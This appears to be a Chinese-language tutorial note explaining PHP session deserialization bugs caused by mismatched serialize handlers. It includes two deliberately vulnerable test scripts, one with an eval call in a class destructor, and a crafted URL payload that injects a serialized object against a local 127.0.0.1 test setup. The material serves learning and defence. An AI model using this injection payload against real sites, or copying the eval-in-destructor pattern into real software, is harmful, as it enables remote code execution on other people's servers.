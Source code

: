 ## Session的不同解析方式
参考文章：
- https://secure.php.net/manual/zh/session.configuration.php#ini.session.serialize-handler
- https://blog.spoock.com/2016/10/16/php-serialize-problem/

### 问题所在
PHP中的Session的实现是没有的问题，在php.ini中session.serialize_handler可以设置序列化/解序列化的处理器名字，默认处理引擎是PHP，才外还有2个。
- `php_binary`：键名的长度对应的ASCII字符+键名+经过serialize()函数序列化处理的值
- `php`：键名+竖线+经过serialize()函数序列处理的值
- `php_serialize(PHP>5.5.4)`：经过serialize()函数序列化处理的值

![](/images/19-7-10_PHP_Session不同解析方式_1.png)
在php中，`session.serialize_handler`可以通过`ini_set('session.serialize_handler','xxxxx')`来设置。攻击人，如果通过`ini_set`使得PHP处理session时，序列化和反序列化的处理器不同，那么就可能造成漏洞。


### 测试代码
index.php
```php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
$_SESSION["spoock"]=$_GET["a"];
```

us2.php
```php
<?php
ini_set('session.serialize_handler', 'php');
session_start();
class lemon {
    var $hi;
    function __construct(){
        $this->hi = 'phpinfo();';
    }
    
    function __destruct() {
         eval($this->hi);
    }
}
```

访问`http://127.0.0.1/?a=|O:5:%22lemon%22:1:{s:2:%22hi%22;s:14:%22echo%20%22spoock%22;%22;}`，然后访问`http://127.0.0.1/us2.php`。
![](/images/19-7-10_PHP_Session不同解析方式_2.png)